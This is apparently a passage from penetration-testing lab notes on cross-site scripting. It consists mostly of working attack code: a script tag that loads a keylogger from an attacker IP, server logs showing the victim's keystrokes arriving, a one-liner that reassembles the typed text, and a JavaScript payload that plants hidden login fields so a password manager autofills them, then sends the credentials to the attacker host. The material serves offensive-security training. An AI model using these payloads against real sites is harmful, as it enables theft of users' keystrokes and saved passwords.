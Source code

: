 ```javascript
// XSS payload
<script src='http://192.168.45.214/xssKeylogger.js'></script>
```

{% code overflow="wrap" %}
```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.45.214 - - [06/Aug/2024 06:37:32] "GET /xssKeylogger.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 06:37:36] "GET /xssKeylogger.js HTTP/1.1" 200 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key=I HTTP/1.1" 404 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key=f HTTP/1.1" 404 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key= HTTP/1.1" 404 -
192.168.198.101 - - [06/Aug/2024 06:37:37] code 404, message File not found
192.168.198.101 - - [06/Aug/2024 06:37:37] "GET /k?key=I HTTP/1.1" 404 -
<SNIP>

# extract the keystrokes
$ grep 'key' keylogger_output.txt | awk -F'=' '{print $2}' | grep -o '^[a-zA-Z0-9{}]' | tr -d '\n'
IfItypealotonmykeyboardRyuggythinksImworkinghardOS{<SNIP>}
```
{% endcode %}

## Stealing Saved Passwords

If a password manager application autofills any login form, this information can be extracted via XSS. Password managers search for combination of a `username` or `email` input and an input that has `type` attribute set to `password`.

{% code title="xssSavedPasswords.js" %}
```javascript
// save the body of the document into a var
let body = document.getElementsByTagName("body")[0]

// create the username element
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

// create the password element
var p = document.createElement("input");
p.type = "password";
u.style.position = "fixed";
//u.style.opacity = "0";

// append elements to the body
body.append(u)
body.append(p)

// set a GET request after a 5 second timeout
setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```
{% endcode %}
